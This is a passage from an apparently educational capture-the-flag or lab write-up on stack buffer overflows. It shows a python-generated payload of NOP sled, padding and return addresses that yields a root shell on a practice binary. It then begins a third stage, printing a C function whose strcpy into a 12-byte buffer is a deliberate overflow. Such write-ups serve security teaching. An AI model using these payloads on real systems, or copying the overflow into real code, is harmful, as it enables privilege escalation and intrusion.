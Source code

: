 

<pre class="prettyprint"><code class=" hljs tex">user@host:/c0re<span class="hljs-formula">$ /c0re/attackme2 $</span>(python -c 'print "<span class="hljs-command">\x</span>90"*9+" "+"G"*165+" <span class="hljs-command">\x</span>40<span class="hljs-command">\xc</span>8<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\xf</span>0<span class="hljs-command">\x</span>07<span class="hljs-command">\xe</span>4<span class="hljs-command">\xf</span>7<span class="hljs-command">\x</span>48<span class="hljs-command">\xed</span><span class="hljs-command">\xf</span>6<span class="hljs-command">\xf</span>7"')
U WRAITES 205 BAITES
<span class="hljs-special">#</span> whoami
root
</code></pre>

<p>Easy right?</p>

<h2 id="overflow3"><span>overflow3</span></h2>
<p>The third stage is a little bit trickier, but it follows the same idea of stage 1. Let’s first look at the source program with bug.There are 2 functions that we are interested in , namely  <code>zerg()</code> and <code>farmville()</code></p>

<pre class="prettyprint"><code class="language-C hljs cpp"><span class="hljs-keyword">int</span> zerg(<span class="hljs-keyword">char</span> *arg)
{
        <span class="hljs-keyword">char</span> buf[<span class="hljs-number">12</span>];
        <span class="hljs-keyword">static</span> <span class="hljs-keyword">int</span> i, sum;

```
    <span class="hljs-keyword">if</span> (<span class="hljs-built_in">strlen</span> (arg) &gt; <span class="hljs-number">24</span>) <span class="hljs-comment">/* Argument too long! */</span>
    {
            <span class="hljs-built_in">printf</span> (<span class="hljs-string">"[ZERG] String too long!\n"</span>);
            <span class="hljs-keyword">return</span> -<span class="hljs-number">1</span>;
    }

    <span class="hljs-comment">/* Compute checksum */</span>
    <span class="hljs-keyword">for</span> (i = <span class="hljs-number">0</span>, sum = <span class="hljs-number">0</span>; i &lt; <span class="hljs-built_in">strlen</span>(arg); i++)
            sum += (<span class="hljs-keyword">int</span>)arg[i];

    <span class="hljs-keyword">if</span> ( (sum &amp; <span class="hljs-number">0xff</span>) != <span class="hljs-number">0</span>)
    {
            <span class="hljs-built_in">printf</span> (<span class="hljs-string">"[ZERG] Sum of incoming buffer is not divisible by 256 :-(\n"</span>);
            <span class="hljs-built_in">exit</span> (<span class="hljs-number">1</span>);
    }

    <span class="hljs-comment">/* Check the first 10 characters */</span>
    <span class="hljs-keyword">if</span> (<span class="hljs-built_in">strncmp</span> (arg, <span class="hljs-string">"RUSHKEKEKE"</span>, <span class="hljs-number">10</span>))
    {
            <span class="hljs-built_in">printf</span> (<span class="hljs-string">"[ZERG] No warning issued for the incoming Zergling rush :-(\n"</span>);
            <span class="hljs-built_in">exit</span> (<span class="hljs-number">1</span>);
    }

    <span class="hljs-built_in">strcpy</span> (buf, arg);

    <span class="hljs-built_in">printf</span> (<span class="hljs-string">"[ZERG] Buffer received %d characters!\n"</span>, <span class="hljs-built_in">strlen</span>(buf));

    <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>;
```
